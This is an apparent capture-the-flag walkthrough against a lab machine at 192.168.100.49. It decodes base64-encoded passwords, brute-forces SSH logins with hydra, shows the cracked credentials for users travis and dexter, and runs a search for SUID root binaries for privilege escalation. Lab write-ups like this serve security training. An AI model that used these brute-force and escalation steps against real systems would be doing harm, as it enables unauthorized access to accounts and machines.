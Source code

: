 
Now we apply base 64 -d to decode all the passwords ... and we use a script very cool to see it in a better way

```c
cds@cds:~$ for password in c3VSSkFkR3dMcDhkeTNyRg== N1p3VjRxdGc0MmNtVVhHWA== WDdNUWtQM1cyOWZld0hkQw== REpjZVZ5OThXMjhZN3dMZw== Y3FObkJXQ0J5UzJEdUpTeQ==; do echo $password | base64 -d; echo; done | tee passwords
suRJAdGwLp8dy3rF
7ZwV4qtg42cmUXGX
X7MQkP3W29fewHdC
DJceVy98W28Y7wLg
cqNnBWCByS2DuJSy

```
Tee passwords export the passowds in an archive

smith
lucas
travis
dexter
meyer

we have two archives os users another of passwords, using hydra...

hydra -L users -P passwords ssh://192.168.100.49

```
[22][ssh] host: 192.168.100.49   login: travis   password: DJceVy98W28Y7wLg
[22][ssh] host: 192.168.100.49   login: dexter   password: 7ZwV4qtg42cmUXGX
```
This two matches

ssh travis@192.168.100.49 


and then we log in as travis via ssh

```
travis@debian:~$ hostname -i
127.0.1.1
travis@debian:~$ whoami
travis
travis@debian:~$ 

```

export TERM=xterm

Now we are seeing if there are some archives with permisions 

dexter@debian:/home/dexter$ find \-perm -4000 -user root 2>/dev/null 


ON THE INITIAL FOLDER
```
travis@debian:/$ find \-perm -4000 -user root 2>/dev/null
./opt/get_access
./usr/bin/chfn
./usr/bin/umount
./usr/bin/gpasswd
./usr/bin/sudo
./usr/bin/passwd
./usr/bin/newgrp
./usr/bin/su
./usr/bin/mount
./usr/bin/chsh
./usr/lib/openssh/ssh-keysign
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

